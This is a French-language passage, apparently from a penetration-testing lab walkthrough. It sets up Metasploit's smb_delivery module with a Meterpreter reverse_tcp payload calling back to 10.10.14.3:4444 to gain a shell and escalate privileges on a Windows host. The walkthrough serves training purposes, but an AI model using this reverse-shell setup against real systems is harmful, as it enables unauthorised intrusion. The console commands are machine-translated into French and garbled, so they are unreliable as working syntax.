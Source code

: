 ```
Lien : https://aspe1337.blogspot.co.uk/2017/04/writeup-of-cve-2017-7199.html
VulnStatus : Non Vulnérable

```

#### Obtention d'un shell Meterpreter

À partir de la sortie, nous pouvons voir plusieurs correctifs manquants. À partir de là, récupérons un shell Metasploit sur le système et essayons d'élever les privilèges à l'aide de l'un des CVE identifiés. Tout d'abord, nous devons obtenir un shell inversé `Meterpreter` . Nous pouvons procéder de plusieurs manières, mais une méthode simple consiste à utiliser le module `smb_delivery` .

Obtention d'un shell Meterpreter

```
exploit msf6 (windows/smb/smb_delivery)> rechercher smb_delivery

Modules correspondants
================
    # Nom Divulgation Date Rang Vérification Description
    - ---- --------------- ---- ----- -----------
    0 exploit/windows/smb/smb_delivery 2016-07-26 excellent Pas de livraison SMB
Interagir avec un module par nom ou index. Par exemple info 0, utilisez 0 ou utilisez exploit/windows/smb/smb_delivery

exploit msf6 (windows/smb/smb_delivery)> utiliser 0

[*] Utilisation de fenêtres de charge utile configurées/meterpreter/reverse_tcp

exploit msf6 (windows/smb/smb_delivery) > afficher les options

Options du module (exploit/windows/smb/smb_delivery) :
    Nom Paramètre actuel requis Description
    ---- --------------- -------- -----------
    FILE_NAME test.dll pas de nom de fichier DLL
    FOLDER_NAME aucun nom de dossier à partager (aucun par défaut)
    PARTAGER pas de partage (par défaut aléatoire)
    SRVHOST 10.10.14.3 oui L'hôte local ou l'interface réseau sur laquelle écouter. Il doit s'agir d'une adresse sur la machine locale ou 0.0.0.0 pour écouter sur toutes les adresses.
    SRVPORT 445 oui Le port local sur lequel écouter.
Options de charge utile (windows/meterpreter/reverse_tcp) :
    Nom Paramètre actuel requis Description
    ---- --------------- -------- -----------
    EXITFUNC process oui Technique de sortie (Accepté : '', seh, thread, process, none)
    LHOST 10.10.14.3 oui L'adresse d'écoute (une interface peut être spécifiée)
    LPORT 4444 oui The port d'écoute
Cible d'exploitation :
    Nom d'identification
    -- ----
    1 HSP

exploit msf6 (windows/smb/smb_delivery)> afficher les cibles

Cibles d'exploitation :

    Nom d'identification
    -- ----
    0 DLL
    1 HSP

exploit msf6 (windows/smb/smb_delivery)> définir la cible 0

cible => 0

exploit msf6 (windows/smb/smb_delivery) > exploit
```